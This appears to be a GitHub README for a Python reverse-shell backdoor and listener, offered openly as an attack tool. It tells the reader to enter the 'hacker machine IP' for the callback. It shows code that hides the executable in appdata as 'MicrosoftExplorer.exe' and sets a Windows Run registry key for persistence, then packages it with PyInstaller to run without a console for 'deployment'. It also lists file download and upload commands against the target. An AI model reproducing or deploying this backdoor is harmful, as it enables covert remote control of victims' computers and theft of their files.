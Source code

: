 # RevShell_2
A reverse shell written in Python with Single client support

## Usage

The backdoor.py script is the backdoor. It can be used as it is, or can be converted to an executable using ```Pyinstaller```

Step 1 
Editing backdoor.py and listener.py
```
# These stataments are at the very ends of the files
my_backdoor = Backdoor("127.0.0.1", 4444)
# enter the hacker machine IP instead of 127.0.0.1 and a port of your choice instead of 4444
# this is the IP the backdoor will try to connect to

my_listener = Listener("127.0.0.1", 4444)
# enter the hacker machine IP instead of 127.0.0.1 and a port of your choice instead of 4444
# this is the IP on which the listener will listen

# Next we'll modify the persistence function
def persistence(self):
        location = os.environ["appdata"] + "\\MicrosoftExplorer.exe"
        # this will set the location of the .exe to a hidden appdata folder with MicrosoftExplorer.exe name
        # this will set the location of the executable to whatever path you want,  for whatever OS you want, please fill it carefully
        if not os.path.exists(location):
            shutil.copyfile(sys.executable, location)
            # shutil.copyfile(__file__, location)
            # if you do not have the executable and want python file copied
            subprocess.call('reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v update /t REG_SZ/d "' + location + '"', shell=True)
            # command for persistence windows. Modify for linux and MacOS
```
Once the files have been edited for your machine's IP and target's OS, it can be converted to a executable using pyinstaller, or can be used as it is
```
pip3 install pyinstaller
pyinstaller --onefile backdoor.py
# add the no console argument to make it better
```
The executable will be found in the dist folder

Now, the executable is ready for deployment.

## Usage

After the connection is accepted a special prompt will be shown ```#>```
In this prompt, any and all system commands will be executed and a few special commands are coded into it as well
```
download <filename> - downloads a file from the target computer
upload <filename> - uploads a file from hacker's computer to target computer
quit - closes the connection and exits the program
exit - closes the connection and exits the program
```
